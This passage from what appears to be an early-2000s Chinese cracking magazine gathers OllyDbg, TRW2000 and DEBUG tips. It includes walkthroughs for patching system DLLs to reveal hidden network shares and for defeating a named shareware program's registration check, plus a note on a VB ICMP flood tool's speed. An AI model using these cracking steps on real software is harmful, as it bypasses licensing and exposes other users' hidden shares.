我为这个问题调试了半天，最后想到了干脆直接把 ICMP 首部发送出去好了，不用多余的 Buffer，可是当我把 sendto 的第一个参数换成 icmp_header 后，程序索性不发送数据了，无奈之下，查阅 CopyMemory 的另类用法，留意到了一个隐藏的内部函数：VarPtr，VB 的指针操作函数，同样与内存操作有关；既然 CopyMemory 是把 ICMP 首部组合起来，那么让 sendto 直接获取 ICMP 首部的内存位置应该能达到目的。马上把它放到 icmp_header 前面，运行，没有出错。抓包测试，终于见到了久违的 ICMP 类型！

### 详细代码


经过一番磨难，我们最终还是写出了 Flooder，经过 512Kbps ADSL 抓包测试，用 C 写的 ICMP Flooder 平均速度为 6810 packet/s，峰值 10862 packet/s，用 VB 写的 ICMP Flooder 平均速度为 6635 packet/s，峰值 10776 packet/s，虽然速度略低，但是也达到了 Flood 的效果！“VB 不可能写 Flooder”的神话被事实打破了，这也证明了 VB 并没有人们想像的那样不好用，虽然有点弯路，可是并不能一味否定 VB！一句话，写程序考的是编程者的能力，而不是语言本身！

# 探索 Ollydbg 的


# “十全武功”

文／木头

Ollydbg 让很多用习惯了 S-ice、TRW 等系统级 Command Line 调试器的老鸟们大跌眼镜，zczc、飞叶流枫的 Ollydbg 脱壳系列文章把 telLock、Aspr、幻影等经典难壳全部摆倒，winroot、slimboy 的 Ollydbg 爆破和算法分析系列文章充分展示了 Ollydbg 与其前辈相比最为突出的“人性化设计”的一面，还有一些朋友不嫌麻烦，为初学者写了大量的 Ollydbg 使用的入门教程，所有的这些加起来，终于让 Ollydbg 从刚开始推出时的默默无闻，变成了现在的红透半边天，可以说，只要不是开发驱动程序，一般应用程序的各种调试工作都可以用 Ollydbg 完美完成。面对这种情况，我们不禁想问：到底 Ollydbg 具有什么神奇的魔力，能够在短短的一两年时间内如此迅速蹿红，打破 S-ice 近乎垄断的调试器地位呢？下面就让我们随着文章的介绍，慢慢领略 Ollydbg 的“十全武功”吧！

一方面，从设计理念上来说，Ollydbg 没有去挤 S-ice 那根 Ring0 级别的独木桥，自己在 Ring3 下面发展，Ring3 虽然听起来级别没有 Ring0 高，可是在 Windows 的保护模式模型下面，所有的应用程序都是运行在 Ring3 级别，所以，要调试一般的应用程序，Ring3 级别的调试器的功能足矣。并且，运行于 Ring3 的同时，带来了可以多任务的便利，一边调试，一边上网聊天，听 MP3，这在以前 S-ice 的年代是根本不能想像的事情，可是 Ollydbg 把它变成了现实，摆在我们的面前。

另一方面，就是 Ollydbg 本身具有的强大的多种功能，在 001 论坛上，经过了将近一年对于 Ollydbg 功能的讨论和探索后，大家终于取得了一个比较一致的意见：Ollydbg 是综合了 S-ice、WinHex、Hiew 这 3 款强大的 Crack 工具大部分优点的超级工具！在 Ring3 应用程序的跟踪方面，无论从易用性、可扩展性，还是从界面的亲和力来说，Ollydbg 都是第一号备选方案。可是，由于 Ollydbg 是菜单+命令行形式的操作界面，所以，有很多强大、奇妙的功能可能隐藏在菜单的后面，而未被大家所发现，这篇文章的主要目的就是把这些可能不为人所知的各种功能展示出来，看后大家可能想起在以前遇到问题的时候，为什么没能够想到自己的手边原来还有这么一个逆向工程的核武器！

- 1. 配置好 Ollydbg 的显示界面。

Alt+O 调出 Debugging Option 设置界面，在 Disassembler 选项卡内，勾选如下选项：

  - Tab between mnemonics and arguments
  - Extra space between arguments
  - Show default segments
  - Always show size of memory operands
  - Show local module name
  - Show symbolic addresses

在 CPU 选项卡中，设置如下：

  - Underline fixups


在 ANALYSIS 1 选项卡中，勾选如下选项：


按照上面这样的设置方法设置后，Ollydbg 就具有了标示跳转、解析花指令、自动猜测未知函数的参数个数等诸多功能。其显示界面如图 1 所示。


看到[ARG.2]和[LOCAL.1]这样的字样了吗？如果你是 IDA 的老手，在一个动态跟踪的软件里头看到如此熟悉的身影，你能不激动么？

### （1）断点的设置

跟踪的过程中，按 F2 设置断点，然后你可以按 F9，让程序 Run 起来，看看你的断点起作用么？

### （2）区段断点的设置

如果你是一个老鸟，相信你一定对 TRW 的 pnewsec 命令不陌生，在网上一篇流传甚广的脱壳教程里头，教会了许多人在脱壳时应用这个神奇的命令，可惜的是 S-ice 不支持这个命令，但在 Ollydbg 里头，你只要 Alt+M，然后选中你想设断点的区段，右键，怎么样？看到令你热血澎湃的 Set BreakPoint 选项了么？

### （3）条件断点的设置

任何一个老鸟对于“bpx CreateFileA if (eax==0)”之类的条件断点都不会陌生，可惜的是，无论是 S-ice 还是 TRW，他们的条件断点功能都不算强大，而且有时还有长度的限制，特别是 S-ice，bpm 断点最多只能设 4 个，所以有时候就会觉得断点资源不够用。现在有了 Ollydbg，你只要 Ctrl+T 或者 Shift+F4，你就能看到两种全新的条件断点设置方式，图 2 是 Ctrl+T 后，屏幕的截图，不要太惊讶，是的，在 Ollydbg 的世界里，条件断点的设置就是这么简单直观！


至于 Shift+F4 是什么界面，大家自己去发掘吧。我可以保证，绝对不比这个差！

### （4）跟踪的技巧

任何一个完美的调试器都会有 3 种功能：Step Into、Step Over、Return if ret（借用 Stan 的名言：“如果没有，扔了它”）。在 Ollydbg 里头，和这 3 个功能对应的热键是：F7、F8、Ctrl+F11。

### （5）如何设置运行参数

我要用 Ollydbg 跟踪“Ping www.sian.com.cn”的执行全过程，怎么办？没问题！菜单选择：Debug --> Arguments，一切 OK！

### （6）如何能知道目前跟踪的程序是在干嘛？

在代码丛林中迷失方向是很正常的事情，可是，有经验的行家里手会从很多地方找出种种蛛丝马迹，带领自己走出丛林，最容易发现线索的地方就是堆栈里头的 LOCAL 变量的值，所以，勤用内存显示功能，你将不再迷路！

### （7）D 命令哪里去了

初学 Crack 的朋友，对于 D EAX 这个命令一定不陌生吧？很多程序这样 D 来 D 去，注册码就能被 D 出来了！那么 Ollydbg 里头，D 命令哪里去了呢？内存显示区域右键，选择 Goto，很快你就能看到你想要的东西啦！

### （8）字符串参考哪里去了

W32Dasm 的字符串参考功能对很多人是个精神鸦片一样的东西，Ctrl+F12，搜索“注册失败”，往上翻，找到 jne，改成 je，这是大多数 Cracker 们随口就能来上一段的爆破心经，可以说，对于 80% 以上的程序而言，只要有这个口诀，任务就基本上完成了一大半。那么 Ollydbg 里头，如何找到字符串参考？很简单，Ctrl+B，出来的界面如图 3 所示，在


Unicode 横行的 Windows 2000 里头，这是最好的动态字符串查找工具！

### （9）有什么方法让事情简单些么

我们写程序的时候，和程序功能代码同样重要的是什么？是注释！任何写过程序的人，都不会不知道注释的重要作用，它就如同一盏指路的明灯，让你不会迷失方向！在 Ollydbg 的反汇编窗口第 4 栏双击，你想写什么就写什么吧。而且这个注释是持久的！

### （10）对付 DLL 的载入，有什么灵丹妙药

Debugging Options -> Events，勾住 Break On New Module，任何一个 DLL 的载入都逃脱不了 Ollydbg 的法眼！

### （11）令 Hiew 汗颜的 online patch 功能

跟踪过程中，哪里需要爆破，就在哪里双击，随心所欲地书写自己想写的汇编代码，Ollydbg 会帮你完成接下来所有的工作——汇编、修改、存盘！

怎么样？以上这 12 条精彩的使用建议，读后是不是觉得非常震惊？急于一展拳脚了？其实，Ollydbg 还有很多精彩的功能，例如 DIY 个性化界面，在消息循环内设断点，由于篇幅所限都未能一一展示出来，相信只要大家勤于思考，一定会发掘出更多更精彩的实用功能！

## Crack 常见问题

- 1. 我系统是 Windows 9x，每次 SOFTICE 都自动装载，有什么办法解决？

这是 SOFTICE 安装时默认时改变了 AUTOEXEC.BAT，自动加了一行 winice.exe。每次系统启动时自动运行 AUTOEXEC.BAT 时将 SOFTICE 装载，你只要去掉这一行，问题就解决了。在你需要用 SOFTICE 时，在纯 DOS 环境下，在 SOFTICE 目录执行 winice.exe 文件即可装载。你也可自建一批处理命令来在纯 DOS 下装载 SOFTICE。

- 2. 如何知道软件是被什么加的密？

用 TYP 或 GetTyp 侦测文件类型或用 procdump 查看文件的 section 就可以知道用什么加密。

- 3. 我在调试软件时，经常看到寄存器是 EAX、EBX、ECX 或 AX、BX、CX 等，这是怎么回事？

因为 Windows 9x 系统是一个 16 位和 32 位混合的操作系统，在这系统上能运行 16 位和 32 位的应用软件，所以你如调试不同位数的软件时，在寄存器上就反应出来了，EAX、EBX、ECX 等是 32 位寄存器，而 AX、BX、CX 等是来表示 16 位寄存器。

- 4. 如何在 TRW2000 下拦截 VB 运行库中的函数？

你要用 TRW2000 拦截 VB 程序，需要用 1.15 版以上，将相应的 VB 运行库复制到 TRW2000 的 DLL 目录下，你也可用此法装载其它 DLL 文件。

- 5. 为什么用 W32DASM 反汇编不能显示中文信息？

wdasm 是这样的，你可以用十六进制编辑器查找中文改为英文后再反汇编。

- 6. 如何修改 TRW2000 的字体颜色？

在 TRW2000 命令下用 ver blue。

## TRW2000 得心应手密技


文／文童

TRW2000 专门针对软件破解进行了优化，在 Windows 下跟踪调试程序跟踪功能更强，可以设置各种断点，并且断点种类较之 SoftICE 更多，而且它可以像一些脱壳工具一样完成对加密外壳的去除，自动生成 EXE 文件，因此它的破解能力更强。而且 TRW2000 不用像 SoftICE 那样必须在开机时即启动运行，这样有两个好处：一来不占宝贵的系统资源，二来可以在一定程度上防止某些软件检测到 TRW2000，因此相对来说它的隐藏性更好一些。笔者在使用 TRW2000 的过程中总结了一些经验，虽然都是些雕虫小技，但可以使您在使用该软件时更得心应手。

一样可以打开抓 TRW2000 运行调试图的目的，请看抓图结果（图1）。


图1

### 1. TRW2000 中抓图的方法

有时，大家在使用 TRW2000 的过程中需要抓图，由于 TRW2000 正在运行，此时无法用 HprSnap、Capture 等抓图软件抓图。但要想写教程或截图给别人看，还不得不在 TRW2000 中抓图，该怎么办呢？其实，TRW2000 中已经提供了抓图功能，只是你没有发现而已。

在 TRW2000 中输入 Ver keep 指令，按回车键，在该命令执行后，实际上我们已经是退出 TRW2000 的调试界面了，只是在屏幕上保持该界面不变，此时就可以随意抓图了。如果此时你按 Print Screen 键一下，就可以将调试窗口抓下来保存在内存中。接下来可以用鼠标点击“开始”菜单中的“程序”→“附件”→“画图”，启动画图程序，点击“编辑”菜单中的“粘贴”就可以把刚刚抓的图粘贴到画图程序中。或者在执行 Ver keep 指令完毕，运行 HprSnap、Capture 等专业抓图程序抓图，

在用 TRW2000 调试程序时，如果向后再执行一行代码就会有输出产生，即被调试程序会显示出错的对话框（因为注册码不正确嘛，所以会显示出错对话框）；这时用 Ver keep 指令就不太管用了，因为这个对话框的出现会破坏屏幕显示状态，本来好的 TRW2000 调试界面保留在屏幕上，出现了一个对话框多难看啊！关键是此时抓图的效果就不好了。该怎么办呢？其实，我们可以用 TRW2000 的 A 命令，编辑该地址，就像这样：A 016F:0043246B，然后输入 jmp eip 指令使程序中止下来，以免破坏屏幕，这时再抓图就可以了。

当然了，如果你手快是键盘操作高手的话，就可以简单一些。方法是：输入 Ver keep 命令后，一只手马上按回车，另一只手按 Print Screen 键，不过要眼明手快，否则只能按上述方法。

### 2. 让你的眼睛更舒服

TRW2000所有窗口的默认颜色都是黑底蓝字，在白天不易看清，此时你可以在TRW2000中输入`VER BLUE`指令来改变调试界面的颜色。


图 2

第一次执行完毕，调试界面的颜色变为黑底白字（图2），第二次执行该指令，变为黑底粉字，第三次执行该指令又变回为黑底蓝字。个人认为改为黑底白字对眼睛最好，看起来最舒服。

如果你想让它每次启动时都改变，你可以用记事本程序打开TRW2000安装目录下的`TRW2000.INI`文件，找到`INIT="lines 35;wr 3;wd 8;wc 16;code on;"`这一行，将它改成`INIT="lines 35;wr 3;wd 8;wc 16;code on;ver blue"`，也就是把`VER BLUE`加在里面，这样就方便多了。

### 3. 解决 TRW2000 1.23 版的小 Bug

在使用TRW2000 1.23版也是最终版时发现一个小Bug，那就是当TRW2000所在的文件夹名长度大于8个英文字符时，如`D:\trw2000123`，按热键时存在plug-ins装载失败的现象！同样是这个1.23版的TRW2000，当你按热键`Ctrl+N`或`Ctrl+M`会出现调试界面，但当你再按这两个热键却不能回到被调试程序中，这该怎么办呢？很简单，你可以按`F5`键或输入`G`键继续执行被调试程序，这样就可以返回到被调试程序中了。另外，在1.23版中退出后会锁定键盘，此时可以按一下`Ctrl`键就可以解决问题。由于1.23版不够稳定，问题很多，在此也建议大家使用1.22版TRW2000，对于TRW2000来说可不是版本越高就最好！

### 4. 使用 TRW2000 的几个小窍门

在TRW2000中可以用`bc`指令代替`bc *`指令，该命令是清除所有断点指令，在不需要断点后可以使用该指令。同样的道理，可以使用`bd`（暂停断点指令）代替`bd *`指令，用`be`（恢复断点指令）代替`be *`指令。

在调试VB程序时，不用把`msvbvm50.dll`或`msvbvm60.dll`文件放入TRW2000安装目录下的DLL文件夹中，只要运行TRW2000，在主界面中点击“Browse”找到被调试程序，然后点击“Load”加载这个VB程序，即可下断点。此方法也适合于无DLL目录的老版本如1.03版。

对于破解VB程序，我有个小小的心得，那就是在TRW2000中下断点`bpx __vbstrcmp`非常的管用，当然也不一定非要下该断点，只是有些时候会加快找到VB程序的关键比较代码。注意，刚刚谈到的`bpx __vbstrcmp`断点中的“__”是按住Shift键的同时按两下减号“_”键输入的。有些朋友在看教材时没有注意到这一点，导致无法成功。

另外，在下断点中断下来后，建议使用`Pmodule`指令，很多情况下可以加快破解速度。`Pmodule`是TRW2000特有的命令，在SoftICE中没有这个指令。`Pmodule`的作用是相当于按`F12`键直至`CS:EIP`位于模块中，但它比`F12`更实用，可以快速回到当前程序领空，而只有回到当前调试跟踪程序的领空才可能破解掉该程序。这样就不用按多次`F12`了，而众所周知，在SoftICE中要按`F12`键很多次才能回到当前程序的领空，这样就大大的方便了我们。

### 5. 关于 TRW2000 的两组热键

TRW2000有两组热键：`Ctrl+N`和`Ctrl+M`，它们分别代表不同的特权级别，所谓特权级别就是程序在执行中有级别之分，只有操作系统工作在最高级——0级中，其他的程序都应工作在3级中，在3级中的程序不可直接访问IO端口，也无法访问其他程序运行的内存，连向程序自己的代码段写入数据都是非法的（会出现你熟悉的蓝屏），只有对工作在0级上的程序来说系统才是全开放的。所以TRW2000为我们准备了两种不同特权级别的热键：按`Ctrl+N`为3级，按`Ctrl+M`为0级，可以在不同的情况下使用。一般情况下，我们按`Ctrl+N`就可以了。


## DEBUG 你知多少？

文／刘虎

关于破解，想必大家也看过不少文章了。说到工具，最方便的莫过于 DEBUG，虽然它的某些功能不如一些专用工具的功能强大，且不可调试 32 位程序，但因为它是 Windows 自带的工具，不论什么时候都可以用，所以不必担心找不着。

用好 DEBUG 是对那些开始学习 CRACK 的朋友的最基本要求。对于大部分的人来说，DEBUG 的使用应该不成问题，但也有不少初学者并不会熟练使用这个 Windows 自带的调试工具；看 HELP 吧，又是一大堆的 E 文。所以，在这里，我给那些不太熟悉此工具的朋友介绍一下各命令的用法，希望能对朋友们有些 HELP。

1. **A(assemble)：汇编命令**
   - 命令格式：`a [<目标开始地址>]`
   - 功能：从 address 地址开始写入汇编命令；回车结束此行，进入下一内存地址的编译。如无 address 参数，则从默认从 `cs:ip` 下一址开始编译。
   - 例：`a 1000:1000`；从 `1000:1000` 地址开始输入汇编指令。

2. **C(compare)：比较命令**
   - 命令格式：`c <范围> <地址范围>`
   - 功能：比较指定内存地址（range address）的值。
   - 例：`c 100:0 100 10:0`；比较从 `100:0` 开始的下 100 个地址与 `10:0` 开始的下 100 个地址。

3. **D(dump)：内存显示命令**
   - 命令格式：`d [<目标开始地址>] [<范围>]`
   - 功能：显示指定地址范围的内存值。
   - 例：`d 100:100`；显示 `100:100` 地址及下个内存的值。
   - `d 100`，显示 `ds:100` 地址及下个内存的值。
   - `d`，显示 `ds:ip` 地址及下个内存的值。

4. **E(enter)：内存修改命令**
   - 命令格式：`e <目标地址> [目标范围]`
   - 功能：修改指定内存的值。
   - 使用：空格编辑下一内存地址值，减号可回到上一内存地址进行重编辑，回车完成编辑。
   - 例：`e`；修改 `ds:ip` 内存的值。
   - `e 100`；修改 `ds:100` 内存的值。

5. **F(fill)：内存填充命令**
   - 命令格式：`f 目标范围 填充值列表`
   - 功能：填充指定范围内存的指定值。
   - 使用：range 为内存地址范围，list 为填充值列表，多个值用空格隔开。依次列入指定地址、地址数、填充值数，则填充值从头开始循环填入指定内存。
   - 例：`f 100 l 100 'ab' 'cd'`；在从 `ds:100` 开始的下 100 个内存中分别填入 `'ab'` 和 `'cd'`。

6. **G(go)：运行命令**
   - 命令格式：`g [=开始地址] [断点地址] ...`
   - 功能：从指定内存地址开始运行。可设定断点，DEBUG 支持最多 10 个断点的设定。
   - 例：`g =100 200 300`；从地址 `cs:100` 处开始执行，并分别在 `cs:200` 和 `cs:300` 处置断点。

7. **H(hex)：运算命令**
   - 命令格式：`h 16进制值1 16进制值2`
   - 功能：16 进制加减的计算，使用后打印的两个值（16 进制数）分别为 16 进制值 1 和 16 进制值 2 的和与差。
   - 例：`h ab cd`；分别求 16 进制数 `ab+cd` 与 `ab-cd` 的值。

8. **I(input)：端口命令**
   - 命令格式：`i 目标端口值`
   - 功能：输入值(2byte)到指定端口。
   - 例：`i 10`，从10号端口读入一字节值。

9. **L(load)：加载命令**
   - 命令格式：`l [路径] [磁盘号] [扇区号] [扇区数]`
   - 功能：加载指定磁盘号、扇区号、和扇区数的磁盘内容到指定内存。
   - 使用：address：指定要加载到的内存。drive：要加载的磁盘号，此处的磁盘号为：A：0号。B：1号。C：2号。依此类推。firstsector：扇区号。number：扇区数。并置EAX:EDX为文件的大小，此处的eax:edx是将大小值的高位放到EAX，低位放到edx，而非指向eax:edx的内存地址。若加载的是*.exe或*.com文件未指定路径，则*.exe.会加载到CS:100（此值不可更改），而*.com文件会在CS:IP处。
   - 例：`l c:\test.txt 2`,

10. **M(move)：内存拷贝命令**
    - 命令格式：`m 地址范围 目标地址开始地址`
    - 功能：拷贝指定内存值到指定内存地址。
    - 使用：range address：两个地址范围。
    - 例：`m 0000:1 l 20 0010:0`，把从0:1内存地址开始的长度为20的内存值复制到地址10:0开头的内存。此命令的目的地址与源地址有重叠也不会发生错误。

11. **N(name)：命名命令**
    - 命令格式：`n [路径] \ [参数列表]`
    - 功能：将指定文件存入DEBUG的FCB(文件控制模块)中，以备以后加载(L)和存盘(W)。
    - 例：`n c:\test.txt` 将c:\test.txt放入FCB中
      `l` 将c:\test.txt载入内存，使cs:ip指向该文件开头，并置bx:cx为文件大小值。
      此两条命令相当于：`debug c:\test.txt`。

12. **o(output)：端口命令**
    - 命令格式：`o 端口值`
    - 功能：从指定端口输入一字节值。
    - 例：`o 71`；从71号端口输入一字节

13. **P(proceed)：**
    - 命令格式：`p [=＜地址＞] [＜指令条数＞]`
    - 功能：单步跟踪，执行指定的一条或多条指令，但遇到过程与中断不进入，而是继续下一条指令。
    - 例：`p =100 20`；执行从cs:100开始的以下20条指令。

14. **Q(quit)：退出命令**
    - 命令格式：`q`
    - 功能：没什么好说的了，就是退出DEBUG。

15. **R(registry)：寄存器命令**
    - 命令格式：`r [寄存器名]`
    - 功能：显示当前各寄存器(16位)值、8个标志位的状态，并反汇编cs:ip所指的下一条指令。后跟寄存器名可修改其值。
    - 例：`r ax`；修改ax的值。

16. **S(search)：搜索命令**
    - 命令格式：`s 范围 '搜索字符列表'`
    - 功能：搜索指定的字符串。若找到则显示地址与值，若无则什么也不输出，等待下一条指令。必须指定全部参数。
    - 例：`s 0000:1111 l 20 '32'`；在0000:1111以后的20个地址中搜索字符串'32'。

17. **T(track)：单步跟踪命令**
    - 命令格式：`t [=地址] [＜指令条数＞]`
    - 功能：单步跟踪，执行指定的一条或多条指令，遇到过程与中断进入到过程中去。每一步过程算一条指令。
    - 例：

18. **V(unassemble)：反汇编命令**
    - 命令格式：`u [开始地址] [范围]`

19. **W(write)：写盘命令**
    - 命令格式：`w [目标起始地址] [目标磁盘号][扇区号][扇区数]`
    - 功能：写从目标起始地址或cs:ip开始的，长度为bx:cx的内存内容到指定的磁盘。此命令很危险，稍有不慎可能毁坏文件或分区表，故应慎重使用，若造成硬件损坏。本人概不负责。
    - 例：`w 0:100`，把从0:100开始的，长度为bx:cx的内存内容写入已用debug或n+l加载的文件中，注意因为*.EXE文件的写入方式很特殊，故此处的文件不可为*.EXE文件。

**【范围】的说明：**
范围有两种表示方式：
(1) 开始地址 结束地址；
(2) 开始地址 l(此处是L，非数字1) 偏移量；

## 使用 DEBUG 来实现 CRACK


关于文件的破解修改，想必大家已经接触过许多了。一般来说，大家都是使用一些专用的文件修改工具，例如 UltraEdit、WinHex、eXeScope、HexWorkshop 等，但是大家有没有遇到过急需修改文件，但又一时找不到这些文件修改工具的时候？不要急，Windows 就自带了一个调试工具：DEBUG。下面我们就结合两个实例来学习 DEBUG 的使用方法。

以前有很多文章介绍的都是使用文件修改工具，在 MSNP32.DLL 文件中查找字符串：24 56 E8 17，然后将其改为：00 56 E8 17。这里，我们使用 DEBUG 来实现。

首先，到 %SYSTEM% 目录下，Copy 文件 MSNP32.DLL 到 C 盘根目录下（Copy 到 C 盘根目录下，有利于随后覆盖源文件的操作）。打开一个 MS-DOS 方式的窗口，来到 C 盘根目录下，键入命令：DEBUG MSNP32.DLL。这时，窗口出现一个短横提示符，证明我们进入到了 DEBUG 的调试状态下，如图 1 所示。

### 修改 MSNP32.DLL

我们知道，在 Windows 9x 下共享文件夹时，只要在共享名后加上符号 $，那么在“网上邻居”里就看不见这个共享文件夹。这一切都是因为 %SYSTEM% 目录下的 MSNP32.DLL 文件的作用。我们可以通过修改这个文件来达到让共享文件夹无所遁形的目的。

然后我们开始查找字符串：24 56 E8 17，要查找字符串，得要用到 S(search) 检索命令。检索命令有两种格式：

1. `S <开始地址> <结束地址> <数据>`

   如：地址：123:0 到期 123:fff 可表示为：123:0 ffff 或 123:456 1 65535

   [默认地址]

   1. 默认段地址：关于代码的命令，如 `u`、`a` 等的默认段地址一般为 DS，而关于数据的命令所用的默认地址一般在 CS 中，如 `d`、`e`、`f` 等。
   2. 默认偏移地址：一般为 IP。

2. `S <开始地址> L <长度> <数据>`

这里，我们使用第二种方法。首先，得到文件的长度。输入命令：`R`，显示寄存器的内容。如图2所示。


图1


图2

其中，BX=0001，CX=4000代表这文件的长度用16进制表示为14000字节。得到文件长度后，输入命令：`S 100 L 4000 24 56 E8 17`，结果如图3所示。


图3

现在我们得到字符串：24 56 E8 17的开始地址：1176:329E。这里，我们只在内存当前段中的100H地址处开始的4000H个字节内查找，便得到了结果。其实，对于文件长于64K的情况，应同时查找多个内存段，应该使用内存显示命令D来查看当前段的地址，并通过如下方法指定查找范围的结束地址：把BX寄存器中的值与当前段的段地址相加，以CX寄存器中的值作为位移。于是，如BX寄存器中的值为0002，CX寄存器中的值为0FF0，当前段的段地址为4000，那么检查范围的结束地址为：4002:0FF0。这就留给读者自己去探索了。

好了，回到刚才我们谈论的话题。这里我们有两种方法来修改字符串24 56 E8 17：一种是使用内存修改命令E直接修改16进制值24为00；另一种是使用汇编命令A来输入汇编语言程序。我们先介绍通过内存修改命令E直接修改16进制值的方法。输入命令：`E 329E`，回车，输入`00`，回车，即修改完成。如图4所示。


图4

第二种方法，先使用反汇编命令U来查看一下字符串：24 56 E8 17中的24出现在哪里？代表什


图5

### 3. 关于 DEBUG

1. DEBUG 所用的值均为 16 进制数值，且不跟后缀 H，这一点要注意。
2. DEBUG 的命令与参数大小写均可，分隔符也只是在两个数字之间有必要打。当然，你若愿意，打上也不算错。
3. 不可用作 32 位的调试器。
4. 超越段地址应分两行，先写段地址，再写代码。

```
asm
mov ax,ds:[bx]


应写为：

asm
ds:
mov ax,[bx]
```

至此，以前对比工具不太熟悉的朋友应该有一定的了解了吧？但是熟练应用还要靠你们自己。

## 修改 NOTEPAD.EXE

我们知道，在 Windows 98 下，每次用记事本打开一个大于 64K 的文件时，系统就会提示：“文件太大，记事本无法打开，要用写字板读取文件吗？” 很是烦人。我们可以通过修改 NOTEPAD.EXE 来达到不需系统提示即直接使用写字板打开大于 64K 文件的目的。

同样的，将 NOTEPAD.EXE 复制到 C 盘根目录下，并改名为 NOTEPAD.TXT。注意，这一步很重要！因为如果要装入的文件为 .EXE 文件，那么 DEBUG 将丢掉程序头部，并将代码重定位到该程序头部指定的地址。这将影响到用户对 .EXE 文件的处理，如用户要通过观看一个 .EXE 文件的执行过程来调试它，那么，就必须以 .EXE 的后缀名装入它，并使自己重定位，否则它就不会运行。

如用户要修改文件中的某些字节，那么首先必须修改其扩展名，然后 DEBUG 就像处理其他类型的文件一样处理它，并以缺省地址或用户指定的地址装入它。并且，装入的程序不能以 .EXE 的后缀名写到磁盘上保存。

与刚才的操作相同，键入命令：DEBUG NOTEPAD.TXT

```
text
进入到 DEBUG 的调试状态下
输入命令：R
得到 CX 寄存器的值即文件长度：D000
输入命令：S 100 L D000 6A 24 A1 B4 50
得到字符串 6A 24 A1 B4 50 的地址：1176:34D4
输入命令：E 34D4，回车，依次输入：E9，空格，16，空格，00，空格，00，空格，00，回车
```

最后，使用写磁盘文件命令 W 来保存我们所做的修改。屏幕显示 Writing D000 bytes 这条信息，表示我们写了 D000 个字节的文件。使用命令 Q 退出 DEBUG 编辑状态。将修改好的 NOTEPAD.EXE 覆盖掉 Windows 下的 NOTEPAD.EXE，打开一个大于 64K 的文件试试，是不是系统没有提示即直接使用写字板打开了？

刚才如果不使用 E 命令，而使用 A 命令汇编也是可以的。

输入命令：A 34D3，然后依次键入以下汇编语言命令：

```
asm
ADD   CL,CH
PUSH  SS
ADD   [BX+SI],AL
ADD   [BX+SI+00],AL
PUSH  SI
PUSH  AX
```

回车，使用写磁盘文件命令 W 来保存我们所作的修改即可。这和使用内存修改命令 E 直接修改 16 进制值的效果是一样的。

通过以上两则实例的介绍，你是不是也对 Windows 自带的调试工具 DEBUG 产生了一定的兴趣呢？自己动手试试吧！

## 用WKTVBdebugger来注册P-Code保护的程序

文／[8d1] lsqqd

不知道大家有没有这种情况，用到某个软件（例如：英语人哥系列等等），苦于无法注册，而上各大论坛寻求帮助，但是回复却说“P—Code 的，注册机不好做啊，抱歉了！”等等之类的话。那么，为什么 Cracker 们觉得这么难于做出注册机来呢？

原因在于，如果你用传统的调试工具（例如：Softice、TRW 等），P—Code 的引用会产生许多跳转指令，所以调试目标程序时难于阅读和跟踪，虽然现在已经有了很多相关的工具协助 P—Code 的调试，难度大大降低了，但是由于大部分的 Cracker 还没有掌握那些复杂难懂的 P—Code 缩略语，所以目前来说这种程序还是比较难以破解的。本文通过利用现在最流行的专门调试 P—Code 的利器 WKTVBdebugger 来破解一个小软件向大家讲解一下这种程序的破解方法。

由于这是东西不是汇编代码，我们基本不需要汇编能力，但我们假设读者可以读懂一些简易的 for……while 等循环结构和能够理解 push、pop 的含义。

我们今天要用到的工具如下：WKTVB debugger。用来试验的小软是心跳情书 2.5 版。这个软件加了壳了；我们需要脱掉它才能被 WKTV 认出是 P—Code 的东西，否则 WKTV 不能正常工作的。WKTVBdebugger 是老外写的一个专门调试 P—Code 的调试工具，基本上大家对他还是认可的，就是有点小缺点（字太小啦，看得眼痛，呵呵……）好了，Let's go!

运行 WKTVBdebugger，File—>Open 用 aspackdies 1.3d 脱完壳后的 unpacked.exe，如果一切正常的话，WKTV 会显示如图 1 所示的信息，告诉你程序的动态链接库是什么版本（VB5 或者 VB6）。


图 1

然后我们点击 Action 菜单，点击 Run 选项，不出任何意外，我们可以得到两个提示框。经过这两个提示框后，我们就进入调试界面了，如图 2 所示。我们来观察一下 WKTV 的调试环境：


图2

首先提一下如何堆栈区，如果有数据出栈进栈的话，我们可以看到 stack 窗体有反应。如果想查看数据的话，我们可以选 Memory Dump 或 Ctrl+M 也可，在弹出的窗口中输入想要的地址就可以看到数据。再来看看调试用的按钮，可以看到 Step Trace（单步步进可以跟进子函数）和 Trace Ret（运行到该函数末尾）、Trace Over（单步步进，子函数不跟进）、Go!（直接运行）如果你平常用过调试器调试过程程序，你会很快适应它的工作方式。我们如果想设断点的话，我介绍一下几种常用的方法。看到左上角的代码框没有？在你想断下的一行双击就可设下断点，在所在行点击右键弹出的菜单中也可以设断。如果你


图3

图4

知道程序代码的位置，也可以右键 break list，然后直接输入代码的地址设断。好了，现在我们按下 F5 键让软件运行，然后进入主程序，选中“帮助”菜单中的“注册软件”选项，弹出了提示让我们注册的一个对话框，我们观察了一下，上面和注册有关的实际上有两个 TextBox 和一个 Button，并且用来显示机器码的这个 TextBox 是不可读的。好，我们现在回到 WKTV 中，点击 FormManager 按钮，接着会弹出图3所示的窗体，我们要做的事情就是选中 frmAbout 项，然后点 Command，在弹出的窗体中选 cmdReg，然后 BPX，如图4所示。可以看到这里的一切都很直观，一看就知道 cmdReg 和注册有关啦，是不是？

好了，我们现在关闭图4中的窗体，然后回到心跳情书的界面，在注册码中随便输入几个数，例如：“123123123”，然后，我们点击注册按钮，立刻断下回到了 WKTV 的调试环境中；好，我们看看代码框中的内容：

```
text
004A8088: 04 FLdRfVar 007BE504h    // 我们断在这里
004A808C: 0F VCallAd frmAbout.txtUserName
// 很明显要读 About form 中 UserName
// EditBox 框中的内容了
004A8095: 0D VCallHresult get__ipropTEXTEDIT
// 这里 get TEXT from EditBox
004A809E: 0F VCallAd frmAbout.txtSN
// About Form 中 SN：EditBox
004A80A7: 0D VCallHresult get__ipropTEXTEDIT  // 取字符串
004A80BA: 0B ImpAdCallI2 modRegister1
004A13D8h    // 在这里负责注册码的生成并判断
004A80BF: F4 Liti2_Byte -> FFh 255
004A80C1: C6 Eql2
```

刚看到这种代码，我想除非是爱因斯坦一样的天才，否则大部分人都会感到难以理解，我开始也是这样的，其实大部分的含义都可以凭字面意思猜得出来的。为了方便大家理解，我来说一下个别缩略语的含义：

### （一）负责函数调用的缩略语

带关键字“Call”的一般都是用来调用函数的语句，例如 ImpAdCallHresult、ImpAdCallFPR4、ImpAdCallI2、ImpAdCallCy、VCallHresult、VCallFPR8、VCallAd，都是用来调用某个函数的语句。

### （二）和程序的跳转有关的缩略语

